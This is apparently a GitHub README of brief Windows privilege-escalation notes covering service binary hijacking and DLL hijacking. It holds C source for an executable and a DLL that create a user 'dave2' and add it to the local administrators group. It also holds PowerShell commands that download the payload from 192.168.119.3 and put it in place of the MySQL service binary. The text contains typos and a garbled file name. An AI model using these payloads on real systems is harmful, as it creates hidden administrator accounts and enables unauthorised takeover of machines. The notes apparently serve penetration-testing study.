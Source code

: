 # Pervlige Escalation In short


## Add user to the system via Leavrginy mysql service | Service Binary Hijacking. 
### Indicator:


![image](https://github.com/MalekAlthubiany/Scripts_Windows/assets/127455300/6ce3ca29-2b07-48a9-a59e-e4df5648a6c5)
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
## Simply replace the service
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exx
```

## Add user to the system via Leavrging service (Misconifugation) | Service DLL Hijacking. 
###Breif
Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state.

For this section, let's consider a scenario in which a software developer creates a program and installs an application as a Windows service. During the installation, the developer does not secure the permissions of the program, allowing full Read and Write access to all members of the Users group. As a result, a lower-privileged user could replace the program with a malicious one. 

To execute the replaced binary, the user can restart the service or, in case the service is configured to start automatically, reboot the machine. Once the service is restarted, the malicious binary will be executed with the privileges of the service, such as LocalSystem.

We begin by connecting to CLIENTWK220 as dave over RDP with the password qwertqwertqwert123. For the purpose of this example, let's assume the vectors to elevate our privileges from the previous Learning Unit are out of scope.

To get a list of all installed Windows services, we can choose various methods such as the GUI snap-in services.msc, the Get-Service Cmdlet, or the Get-CimInstance Cmdlet (superseding Get-WmiObject).
### Indicator:
![image](https://github.com/MalekAlthubiany/Scripts_Windows/assets/127455300/13f9db2c-e01e-442e-be3c-aa91e5472a9f)

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```


